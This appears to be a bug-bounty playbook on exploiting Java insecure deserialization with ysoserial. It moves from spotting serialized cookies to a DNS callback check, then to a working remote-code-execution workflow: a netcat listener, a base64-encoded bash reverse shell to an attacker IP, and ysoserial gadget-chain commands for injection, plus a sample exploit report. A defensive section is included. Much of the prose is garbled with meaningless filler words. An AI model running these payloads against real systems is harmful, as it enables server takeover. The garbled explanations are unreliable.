

# Java Insecure Deserialization (`ysoserial`)

## When to Use
- When discovering a Java-based web application (e.g., WebLogic, JBoss, Tomcat) natively accepting arbitrary Base64-encoded strings beginning with `rO0AB...` or raw binary streams containing the hex magic bytes `AC ED 00 05`.
- During an advanced Black-box penetration test when simplistic web vulnerabilities (XSS/SQLi) are absent, and you require definitive Remote Code Execution (RCE) terminating directly traversing deep server-side logic fundamentally.
- To execute out-of-band (OOB) blindness testing leveraging DNS interactions inherently verifying that the backend architecture is systematically parsing and executing Java objects implicitly.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying Java Serialized Objects (The Signatures)

```text
# Concept: Serialization explicitly converts a complex Java Object (e.g., a 'User' class 
# containing a username, ID, and permissions) perfectly into a flat byte stream identically. 
# Deserialization converts that stream aggressively back into a living Object in the server's RAM.
# If the server deserializes any object provided by the user without validation, RCE occurs natively.

# 1. Base64 Encoded Format (Common in Cookies or Hidden Form Fields)
# Encoded String: `rO0ABXNyAA5qYXZhLmxhbmcu...`
# - `rO0AB` is the hallmark Base64 encoding exclusively translating the raw Java magic bytes.

# 2. Raw Binary / Hex Format (Common in raw TCP sockets or custom API calls)
# Magic Bytes: `AC ED 00 05`
# - Identifies the ObjectOutputStream natively written seamlessly utilizing the JVM protocol.
```

### Phase 2: Understanding Gadget Chains

```text
# Concept: We fundamentally cannot instruct the server to simply `Runtime.exec("calc.exe")` 
# utilizing a custom class because the server lacks our custom class in its classpath. 
# We MUST explicitly construct a "Gadget Chain" - a highly complex sequence of deeply nested, 
# pre-existing classes already natively available identically on the remote server (e.g., 
# vulnerable versions of Apache CommonsCollections, Spring, Hibernate, Groovy).

# `ysoserial` automates the grueling task of precisely aligning these gadget chains perfectly 
# formulating our explicit command.
```

### Phase 3: Out-of-Band (OOB) Testing (Blind Identification)

```bash
# Concept: Standard RCE via deserialization is almost fundamentally blind. We will not receive 
# a response confirming the execution natively. We must compel the server to physically execute 
# a DNS Ping unequivocally proving execution.

# 1. Generate an OOB URL utilizing Burp Collaborator or interact.sh
# URL: `vulnerable123.burpcollaborator.net`

# 2. Generate a `URLDNS` payload utilizing ysoserial.
# The `URLDNS` chain inherently exists systematically within the core Java standard library (JRE), 
# identically guaranteeing execution without relying on third-party vulnerable dependencies.
java -jar ysoserial.jar URLDNS "http://vulnerable123.burpcollaborator.net" > payload_urldns.bin

# 3. Base64 Encode the resulting binary blob for HTTP transport.
cat payload_urldns.bin | base64 -w0

# 4. Inject the `rO0AB...` Base64 string directly into the vulnerable HTTP Cookie parameter.
# If your Collaborator server receives an active DNS resolution query originating inherently 
# from the target application server, Java Deserialization is absolutely confirmed securely.
```

### Phase 4: Remote Code Execution (The RCE Payload)

```bash
# Concept: We have proven the vulnerability exists explicitly. Now we iterate through massive 
# third-party Gadget Chains (CommonsCollections1 through 7, etc.) attempting to force 
# systematic OS-level command execution identically.

# 1. Start a Netcat listener aggressively on your attacker machine (Port 4444).
nc -lvnp 4444

# 2. Formulate the explicit Reverse Shell command natively bypassing Java's strict `Runtime.exec` 
# String Tokenizer parsing limitations.
# Payload: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuNS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}`

# 3. Generate the Malignant Serialized Object utilizing the `CommonsCollections4` gadget chain natively.
java -jar ysoserial.jar CommonsCollections4 'bash -c {echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}' > exploit.bin
cat exploit.bin | base64 -w0

# 4. Inject the finalized payload systematically into the vulnerable Parameter (e.g., the `ViewState` variable or Authentication Cookie).
# 5. Receive the root Reverse Shell identically terminating unequivocally on the Netcat listener!
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Discover `rO0AB...` Base64 string in HTTP Cookie] --> B[Generate `URLDNS` payload utilizing `ysoserial`]
    B --> C[Send payload containing Burp Collaborator URI]
    C --> D{Collaborator receives DNS Query natively?}
    D -->|No| E[Server possesses strict strict Input validation natively/ObjectInputFilters (LookAhead)]
    D -->|Yes| F[Java Deserialization definitively confirmed! Execute blind RCE attempts.]
    F --> G[Generate diverse payload uniquely utilizing `CommonsCollections1-7`, `Spring1`, `Hibernate1`]
    G --> H[Encode dynamically evaluating Base64 and URL encoding sequentially]
    H --> I[Send payloads probing for Reverse Shell execution]
    I -->|No Shell| J[Attempt alternative payload types exclusively creating specific files (`touch /tmp/pwned`) demonstrating blind execution unequivocally]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Implement Java ObjectInputFilters**: Modern Java (JDK 9+) absolutely provides intrinsic Deserialization whitelisting architectures (`java.io.ObjectInputFilter`). Explicitly define an aggressive, mandatory Look-Ahead list rejecting any class intrinsically not exclusively developed by the organization natively prior to any instantiation implicitly. A systemic refusal of classes identically like `org.apache.commons.collections.*` fundamentally eradicates Gadget Chain execution natively.
- **Aggressive WAF Signatures**: Disallow the systemic transmission of arbitrary serialized objects horizontally across Web parameters. Configure identical Cloudflare WAF patterns unequivocally blocking any HTTP POST, GET, or Cookie parameters beginning synchronously with the `rO0AB` Base64 string implicitly, or containing the `AC ED 00 05` sequence entirely within raw API inputs natively.
- **Architectural Refactoring (JSON/Protocol Buffers)**: Fundamentally prohibit developers from identically utilizing native Java Serialization architectures (`java.io.Serializable`) mandate the exclusive integration of structured, strictly typed data formats natively like JSON (utilizing secure, type-safe Jackson configurations natively avoiding polymorphic instantiation securely) identically ensuring structural integrity securely.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Deserialization | The intrinsically volatile process of explicitly rebuilding a complex language-specific data structure seamlessly from an abstract, flat sequence of bytes natively supplied horizontally by a client |
| Gadget Chain | A sophisticated, highly technical sequence inherently combining various seemingly harmless code fragments natively residing deeply within a vulnerable, third-party library identically (e.g., Apache Commons) systematically triggering a devastating RCE unequivocally during the instantiation lifecycle organically |
| ysoserial | The premier, foundational exploitation toolkit exclusively designed generating immense arrays of customized Java Gadget Chains natively demonstrating arbitrary command execution implicitly |
| Magic Bytes (`AC ED 00 05`) | The absolutely unique, permanent hexadecimal signature definitively identifying the beginning of a native Java Serialized Object stream intuitively |

## Output Format
```
Advanced Exploitation Report: Remote Code Execution via Java Deserialization
=============================================================================
Vulnerability: Insecure Deserialization (OWASP A08:2021)
Exploitation Tool: `ysoserial` / `URLDNS` / `CommonsCollections5`
Severity: Critical (CVSS 9.8)

Description:
The primary customer support portal (`https://support.corp.com`) natively utilizes entirely unvalidated Java Deserialization intrinsically managing user session persistence. 

Upon successful login intuitively, the application universally sets a monolithic HTTP Cookie explicitly named `UserSessionState`. Extensive analysis identified the precise Base64 encoded payload originating completely with the structural `rO0AB...` string confirming native structural Java serialized data implicitly.

Attacking Methodology:
1. Conducted Out-of-Band (OOB) validation natively generating a foundational `URLDNS` object seamlessly querying the Red Team infrastructure. The server identically executed the resolution implicitly confirming absolute susceptibility systematically.
2. Compiled a highly sophisticated Reverse Shell command bypassing execution limitations utilizing `ysoserial`.
3. Executed a comprehensive Gadget Chain enumeration seamlessly isolating specifically that the backend application universally integrated a highly vulnerable version natively spanning `Apache Commons Collections 5`.
4. The Base64 encoded payload identical stream explicitly forced the JVM launching `/bin/bash` communicating back to the Red Team's Netcat listener implicitly.

Impact:
The adversary natively possesses absolute, uninhibited systemic `root` command execution exclusively manipulating the foundational Linux application server implicitly. Complete compromise seamlessly achieved identically.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (Deserialization RCE)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Pornhub** | $20,000 | Ruslan Habalov | RCE via PHP deserialization — breaking PHP engine | 2023 |
| **Pornhub** | $10,000 | 5haked | Separate RCE via PHP deserialization chain | 2023 |
| **Uber** | (Disclosed) | Orange Tsai | RCE via Flask Jinja2 Template Injection (SSTI) | 2023 |

**Key Lesson**: PHP deserialization RCE consistently pays $10K-$20K. Two different researchers
found separate RCE chains on the same target — proving that one RCE fix doesn't mean the 
app is safe. Orange Tsai's Flask SSTI on Uber shows Python apps are equally vulnerable.

**Real gadget chains that work:**
- PHP: `unserialize()` + POP chain → file write → webshell
- Java: ysoserial CommonsCollections → `Runtime.exec()`
- Python: `pickle.loads()` + `__reduce__` → `os.system()`
- .NET: `BinaryFormatter` + TypeConfuseDelegate → RCE

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [Deserialization of untrusted data](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)
- RootedSec (frohoff): [ysoserial Release Notes](https://github.com/frohoff/ysoserial)
- PortSwigger: [Insecure Deserialization exploitation techniques](https://portswigger.net/web-security/deserialization)
